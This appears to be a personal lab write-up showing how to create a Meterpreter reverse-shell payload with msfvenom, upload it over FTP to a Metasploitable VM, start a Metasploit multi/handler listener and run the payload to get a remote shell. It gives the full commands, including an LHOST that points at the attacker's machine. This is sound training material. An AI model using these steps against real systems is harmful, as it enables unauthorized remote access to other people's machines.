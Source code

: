 ```yaml
---
title: 😈 Establishing a Reverse Shell Using Metasploit and Msfvenom
permalink: /metasploit2
parent: Pentesting
---
```

# Establishing a Reverse Shell Using Metasploit and Msfvenom
{: .no_toc }

{: .note }
Pentesting, Ethical Hacking, Kali Linux, Metasploit, Metasploitable, Virtual Machines, Networking
{: .fs-3 }

#### Contents
{: .no_toc }
- TOC
{:toc}

## Scenario
In this Lab, I’ll be using Msfvenom and Metasploit to establish a reverse shell on a target machine. Msfvenom is a command line instance of Metasploit that is used to generate payloads, which is a piece of software that is designed to perform malicious actions on a target system. This payload must be delivered to and executed from the target machine. To do this, an attacker will use social engineering techniques or exploit a known vulnerability on the target machine. 

In this case, I’ll be creating a payload designed to establish a reverse shell. A reverse shell differs from a normal shell in that the target system initiates the connection back to the attacker’s machine. This connection is established when the payload is executed by the user of the target machine. From the attacker’s perspective, a benefit of establishing a reverse shell is that it may help bypass firewalls that block incoming traffic since the connection is coming from the target machine rather than the attacker’s machine. 

## Goals & Objectives
1. Create a reverse shell payload using Metasploit and Msfvenom
3. Transfer the payload to the target machine.
4. Create a listener to "listen" for an incoming connection from the target machine.
6. Execute the payload on the target machine.

## Results
### 📄 Task 1: Run Metasploit and Msfvenom

![](/assets/images/101_77_metasploit2/step0.png)

### 📄 Task 2: Create the reverse shell payload

In Metasploit, I use the following command to create the reverse shell payload:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.103 LPORT=5555 -f elf -o reverse-sh.elf
```

![](/assets/images/101_77_metasploit2/step1.png)

```-p linux/x86/meterpreter/reverse_tcp``` specifies the type of payload I want to use  
```LHOST``` specifies the IP address of the machine I want the target machine to establish a connection with, which is the attacker’s machine  
```LPORT``` specifies the port the target machine will connect through  
```-f``` specifies the file type. ELF, or Executable and Linkable Format, is a common file format for executable files  
```-o``` saves the payload with the chosen file name: reverse-sh.

<br>
<br>
### 📄 Task 3: Transfer the payload to the target machine

There are many ways an attacker can transfer a payload to a target machine, such as using social engineering techniques like phishing, USB baiting, or watering hole attacks. For the sake of simplicity, I am provided with the username and password of the target machine.

With those credentials, I can use FTP (file transfer protocol), which is a standard network protocol used to transfer files between devices on a network. I use the following commands:

```bash
ftp 192.168.28.128 
put reverse-sh.elf
by
```

![](/assets/images/101_77_metasploit2/step2a.png)

```ftp 192.168.28.128``` establishes the FTP session. 192.168.28.128 is the IP address of the target machine.
```put reverse-sh.elf``` sends the file to the target machine  
```by``` ends the session

<br>
<br>
### 📄 Task 4: Gain access to the target machine and make the payload executable

I access the target machine by establishing an SSH connection. The Metasploitable VM target machine has a default username and password of "msfadmin" which I use to log in to the machine.

![](/assets/images/101_77_metasploit2/step3.png)

Now that I have access to the target machine, I will give all users on the machine permissions to execute the payload. I use the following command: ```chmod +x reverse-sh.elf```

![](/assets/images/101_77_metasploit2/step4.png)

```chmod``` is the change mode command, which allows me to change the permissions of a file. ```+x``` adds executable permissions to all users. 

To see how changing file permissions works in Linux, see my [Managing File Permissions in Linux](/permissions) project.

<br>
<br>
### 📄 Task 5: Create a listener on the attacker’s machine

In a reverse shell, the target machine is initiating the connection to the attacker’s machine. In order for the attacker’s machine to acknowledge the connection request from the target machine, a listener must be created on the attacker’s machine. 

The listener essentially acts as a receiver, ready to accept the connection initiated by the reverse shell payload.

In a new terminal on Kali Linux, I initiate Metasploit once more by typing ```msfconsole```. Next, to specify that I want to use a listener, I type ```use exploit/multi/handler```. This tells Metasploit that I want to use the multi/handler module. With this module, I must specify three parameters: the local host (the attacker’s machine), the local port (through which the connection will be established), and the payload type. The following commands establish these parameters:

```bash
set lhost 192.168.28.129  
set lport 5555  
set payload linux/x86/meterpreter/reverse_tcp  
run
```

![](/assets/images/101_77_metasploit2/step5.png)

The attacking machine is now listening for an incoming connection from the target machine.

<br>
<br>
### 📄 Task 6: Execute the payload on the target machine

Finally, with the reverse shell payload in position and the listener active on the attacking machine, I switch back to the first terminal where a connection to the target machine was established using SSH and I type the following:

```./reverse-sh.elf```

Once I hit enter, the reverse shell payload executes. The Metasploit terminal outputs that “Meterpreter session 1 opened.” This indicates that the target machine initated the connection request and the attacking machine accepted the connection.

To find out how a Meterpreter shell works, please refer to my [Upgrading to Meterpreter Shell Using Metasploit](/metasploit1) project. 

Next, I type shell to access the shell.

![](/assets/images/101_77_metasploit2/step6.png)

<br>
<br>
---

<a href="#top" id="back-to-top">Back to top</a>